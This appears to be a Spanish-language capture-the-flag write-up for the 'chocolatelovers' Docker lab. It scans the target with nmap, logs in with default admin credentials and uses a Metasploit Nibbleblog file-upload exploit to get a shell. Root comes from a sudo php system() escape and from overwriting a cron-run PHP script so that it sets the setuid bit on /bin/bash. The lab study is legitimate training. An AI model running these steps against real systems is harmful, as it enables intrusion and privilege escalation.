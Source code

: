 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh chocolatelovers.tar
```

![[Pasted image 20250206171518.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250206171636.png]]

Nos metemos en la web:

![[Pasted image 20250206172221.png]]

![[Pasted image 20250206172242.png]]

![[Pasted image 20250206172317.png]]

Probamos admin: admin:

![[Pasted image 20250206172346.png]]

![[Pasted image 20250206173029.png]]

Versión nibblelog 4.0.3.

Buscamos si existe exploit:

```Bash
searchsploit nibbleblog
```

![[Pasted image 20250206173405.png]]

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search nibblelog
```

![[Pasted image 20250206173800.png]]

```
use exploit/multi/http/nibbleblog_file_upload
```

![[Pasted image 20250206173811.png]]

```
show options
```

![[Pasted image 20250207085944.png]]

```
set RHOSTS 172.17.0.2
```

![[Pasted image 20250206173926.png]]

```
set USERNAME admin
```

![[Pasted image 20250206173942.png]]

```
set PASSWORD admin
```

![[Pasted image 20250206173954.png]]

```
set TARGETURI /nibbleblog/
```

![[Pasted image 20250206174002.png]]

```
show options
```

![[Pasted image 20250206173733.png]]

```
exploit
```

![[Pasted image 20250206174049.png]]

```
getuid
```

![[Pasted image 20250206174103.png]]

```
shell
```

![[Pasted image 20250206174136.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250206174205.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250206174226.png]]

```Bash
CMD="/bin/bash"
```

![[Pasted image 20250206174420.png]]

```Bash
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

![[Pasted image 20250206174434.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250206174514.png]]

```Bash
whoami
```

![[Pasted image 20250206174536.png]]

Miramos procesos:

```Bash
ps aux
```

![[Pasted image 20250206175224.png]]

Elevamos privilegios de nuevo:

```Bash
cd /opt
```

![[Pasted image 20250206174831.png]]

```Bash
ls
```

![[Pasted image 20250206174850.png]]

```Bash
cat script.php
```

![[Pasted image 20250206174945.png]]

```Bash
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

![[Pasted image 20250206175324.png]]

```Bash
ls -l /bin/bash
```

![[Pasted image 20250206175514.png]]

```Bash
bash -p
```

![[Pasted image 20250206175528.png]]

```Bash
whoami
```

![[Pasted image 20250206175651.png]]

